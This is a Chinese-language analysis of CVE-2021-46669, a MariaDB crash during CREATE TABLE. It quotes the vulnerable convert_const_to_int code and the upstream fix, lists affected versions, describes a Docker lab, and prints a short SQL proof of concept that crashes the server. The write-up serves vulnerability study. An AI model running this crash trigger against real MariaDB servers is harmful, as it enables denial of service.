



# CVE-2021-46669 CWE-416 MariaDB DoS via UAF

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。

## 漏洞原理

MariaDB 在执行 `CREATE TABLE` 时对 CHECK 约束进行优化处理时，`convert_const_to_int` 函数会将字符串常量（如 `'x'`、`'x111'`）转换为 `BIGINT` 类型，而此时表数据缓冲区的字段值还未初始化，导致函数尝试从该数据缓冲区读取信息，导致错误。

## 漏洞定位

分析 MariaDB 10.6.3：

在 sql\item_cmpfunc.cc 文件，第 303 行，`convert_const_to_int`函数用于处理 `IN` 子句时，将常量列表中的值预先转换为与比较列相同的数据类型。

其中第 340 行的判断语句用于保存原始值，其调用`field->val_int()`函数获取当前行记录中，这个字段的整数值。它会**直接访问** `field->table->record[0]` 这块内存缓冲区来读取数据。

`record[0]` 是指向表中第一行数据的内部记录缓冲区。在 `CREATE TABLE` 的这个阶段，表结构正在建立，**还没有任何实际的数据行**，所以 `record[0]` 这个缓冲区根本没有被初始化。然而，这个判断语句错误地假设它可以从这个缓冲区读取数据，从而导致读取了无效的、未初始化的内存，引发断言失败和服务器崩溃。

即在执行 `CREATE TABLE` 时， `convert_const_to_int` 的函数会尝试从表的内部数据缓冲区 (`record[0]`) 读取信息。但在那个时间点，这个缓冲区还**没有被初始化**，读取它就会导致数据库崩溃（即“未初始化内存读取”）。

```cpp
// item_cmpfunc.cc 文件，第 303 行
static bool convert_const_to_int(THD *thd, Item_field *field_item, Item **item)
{
  Field *field= field_item->field;
  int result= 0;

  if ((*item)->cmp_type() == INT_RESULT &&
      field_item->field_type() != MYSQL_TYPE_YEAR)
    return 1;

  if ((*item)->can_eval_in_optimize())
  {
    TABLE *table= field->table;
    MY_BITMAP *old_maps[2] = { NULL, NULL };
    ulonglong UNINIT_VAR(orig_field_val); /* original field value if valid */
    bool save_field_value;

    /* table->read_set may not be set if we come here from a CREATE TABLE */
    if (table && table->read_set)
      dbug_tmp_use_all_columns(table, old_maps,
                               &table->read_set, &table->write_set);

      // 判断是否需要保存原始值
    save_field_value= (field_item->const_item() ||
                       !(field->table->status & STATUS_NO_RECORD));
    // ********** 340 行 ************** 如果需要，就保存 ******** 漏洞点 ********************
    if (save_field_value)
      orig_field_val= field->val_int();
      
     // ... 其他处理 ... 这里会“弄脏”数据，所以在执行它之前，程序必须先用 field->val_int() 把 field 的原始值读出来，存放在 orig_field_val 变量里。
      
    // 如果之前保存过，就恢复
    if (save_field_value)
    {
      result= field->store(orig_field_val, TRUE);
      /* orig_field_val must be a valid value that can be restored back. */
      DBUG_ASSERT(!result);
    }
    if (table && table->read_set)
      dbug_tmp_restore_column_maps(&table->read_set, &table->write_set, old_maps);
  }
  return result;
}
```

## 漏洞修复

在 ‎[`sql/table.cc`](https://github.com/MariaDB/server/commit/c274853c0797801de0398699d60c8579c45d1f61#diff-c404d86b1ddf4b784225a0905d5e6c4371737dfe3af843a58ecdcd9b88c72676) 文件中的`open_table_from_share`函数中加入代码 `outparam->status = STATUS_NO_RECORD;`，用于在初始化表对象的函数 (`open_table_from_share`) 中，为这个新表打上了一个**“无记录” (`STATUS_NO_RECORD`)** 的状态标志。

在这个位置`TABLE` 对象刚刚被清零并建立了最核心的关联，但还没有进行任何复杂的操作（比如加载字段、约束等）。在这里立即设置 `STATUS_NO_RECORD`，就确保了任何**后续**的初始化步骤使用未初始化的区域。

当 `convert_const_to_int` 函数运行时，它内部的逻辑会先检查这个状态标志。当它看到 `STATUS_NO_RECORD` 时，就知道 `record[0]` 是无效的，从而**主动跳过**了那段危险的内存读取代码，避免了崩溃。

```cpp
// ...  
outparam->db_stat= db_stat;
outparam->write_row_record= NULL;
outparam->status= STATUS_NO_RECORD;  // 增加标志
// ...
```

## 影响范围

**影响版本：**MariaDB :

- 10.2.44 to ~
- 10.3.0 to 10.3.34
- 10.4.0 to 10.4.24
- 10.5.0 to 10.5.15
- 10.6.0 to 10.6.7
- 10.7.0 to 10.7.3

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2021-46669-PoC.sql 。

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2021-46669-PoC.sql，可以看到遇到错误且容器自动关闭

```sql
source CVE-2021-46669-PoC.sql
```



4、查看 MariaDB 崩溃日志，可以看到使用了已经释放的堆内存地址，表明 UAF 发生导致 DoS。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
CREATE TABLE v0 (
  v1 bigint CHECK (
    v1 NOT IN ( 'x', 'x111' )
  )
);
```

`v1` 是 `BIGINT` 类型，`NOT IN ( 'x', 'x111' )` 中 `'x'`、`'x111'` 是 **字符串**，MariaDB 在构造 CHECK 约束表达式时，会尝试将 `'x'` 和 `'x111'` **隐式转换为 BIGINT**。

MariaDB 发现 `'x'` 无法转换为合法整数，就调用 `convert_const_to_int()` 尝试从 `record[0]` 中读取关于 `v1` 字段的一些属性。然而，由于当前还处在 `CREATE TABLE` 阶段，表结构正在建立，数据区还未就绪。`record[0]` 只是一块被分配但**未被初始化的内存**，最终导致崩溃。

## 参考链接

